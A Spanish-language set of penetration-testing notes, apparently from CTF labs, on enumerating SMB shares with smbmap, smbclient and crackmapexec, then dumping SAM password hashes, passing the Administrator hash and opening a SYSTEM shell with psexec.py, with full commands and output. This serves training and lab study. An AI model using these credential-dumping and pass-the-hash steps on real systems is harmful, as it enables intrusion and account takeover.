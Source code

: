 # ENUMERACION CON SMB PORT 445
## Enumeración de recursos compartidos SMP

### ¿Qué es un SMB?
---

El puerto445 es "SMB sobre IP". SMB son las siglas de 'Server Message Blocks'. En lenguaje moderno, Server Message Block también se conoce como Common Internet File System. El sistema funciona como un protocolo de red de capa de aplicación utilizado principalmente para ofrecer acceso compartido a archivos, impresoras, puertos serie y otros tipos de comunicaciones entre nodos de una red.
Por ejemplo, en Windows, SMB puede ejecutarse directamente sobre TCP/IP sin necesidad de NetBIOS sobre TCP/IP. Esto utilizará, como señalas, el puerto 445. En otros sistemas, encontrarás servicios y aplicaciones que utilizan el puerto 139. Esto significa que SMB se ejecuta con NetBIOS sobre TCP/IP.

### Scanear Recursos Compartidos smbmap

```ruby
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(root㉿kali)-[/home/…/CTF/vulnhub/venom1/nmap]
└─# smbmap -H 192.168.200.150 
[+] Guest session       IP: 192.168.200.150:445 Name: venom.box                                         
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (venom server (Samba, Ubuntu))
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
En la ejecución anterior se puede evidenciar que existe recursos compartidos, sin embargo, no hay accesos.

### Scanear Recursos Compartidos smbclient

Se puede listar `flag -L`los recusros compartidos con  al herramienta smclient, usando el usuario anonymous o null session, `smbclient -L 10.10.10.3 -N` en caso de presentar error `NT-STATUS_CONNECTION_DISCONENECTED`, ese error puede se puede solucionar agregando el parametro `--options` como esta acontinuación.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/nmap]
└─# smbclient -L 10.10.10.3 -N --option 'client min protocol = NT1'
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```
Cuando se encuantra recursos compartidos con accesos mediante null session, se puede autenticar a la carpeta, cona al herramienta `smbclient`.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/nmap]
└─# smbclient //10.10.10.3/tmp -N                                     
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jan 24 12:25:55 2023
  ..                                 DR        0  Sat Oct 31 02:33:58 2020
  .ICE-unix                          DH        0  Tue Jan 24 10:55:30 2023
  vmware-root                        DR        0  Tue Jan 24 10:55:58 2023
  .X11-unix                          DH        0  Tue Jan 24 10:55:55 2023
  .X0-lock                           HR       11  Tue Jan 24 10:55:55 2023
  5563.jsvc_up                        R        0  Tue Jan 24 10:56:32 2023
  vgauthsvclog.txt.0                  R     1600  Tue Jan 24 10:55:28 2023

                7282168 blocks of size 1024. 5386540 blocks available
smb: \> 
```
### Scanear Recursos Compartidos crackmapexec 
Aprovechando que el puerto smb esta abierto podemo ennumerar los recursos compartidos utilzando crackmapexec.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# crackmapexec smb 10.10.10.4
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing SMB protocol database
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Initializing RDP protocol database
[*] Initializing LDAP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
```
Para listar los recursos compartidos
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# crackmapexec smb 10.10.10.4 -u 'null' -p '' --shares           
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
SMB         10.10.10.4      445    LEGACY           [-] legacy\null: STATUS_LOGON_FAILURE 
```                                                                                          
### Pass The Hash
"Pass the Hash" (PtH) es una técnica utilizada por los atacantes en ciberseguridad para obtener acceso a sistemas y redes mediante el uso de hashes de contraseñas en lugar de la contraseña real. En lugar de adivinar o romper la contraseña de un usuario, los atacantes utilizan herramientas para extraer los hashes de las contraseñas almacenados en un sistema y luego utilizar esos hashes para autenticarse en el sistema como si tuvieran la contraseña real. Esto les permite obtener acceso a los recursos protegidos por el usuario afectado.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c]
└─# crackmapexec smb 10.10.10.152 -u 'usuariodos' -p 'p3nT3st!' --sam
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\usuariodos:p3nT3st! (Pwn3d!)
SMB         10.10.10.152    445    NETMON           [+] Dumping SAM hashes
SMB         10.10.10.152    445    NETMON           Administrator:500:aad3b435b51404eeaad3b435b51404ee:d0f73603a4d96655430fdf02de4afaee:::
SMB         10.10.10.152    445    NETMON           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.152    445    NETMON           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.152    445    NETMON           usuariodos:1000:aad3b435b51404eeaad3b435b51404ee:6df6a842ba1250d3fbf4ab6b3d54bcbc:::
SMB         10.10.10.152    445    NETMON           [+] Added 4 SAM hashes to the database
```
Con las hashes obtenidos se puede hacer un pass the hashses, con crackmapexec.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# crackmapexec smb 10.10.10.152 -u 'Administrator' -H 'd0f73603a4d96655430fdf02de4afaee'
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\Administrator:d0f73603a4d96655430fdf02de4afaee (Pwn3d!)
```
Con la herramienta `psexec.py`, se puede utilizar el hashs para iniciar una sesion mediante una shell.

```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# psexec.py WORKGROUP/Administrator@10.10.10.152 -hashes :d0f73603a4d96655430fdf02de4afaee
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file OHhKIKGU.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service NKHY on 10.10.10.152.....
[*] Starting service NKHY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```

## Netstat

nbtstat -A 204.224.150.3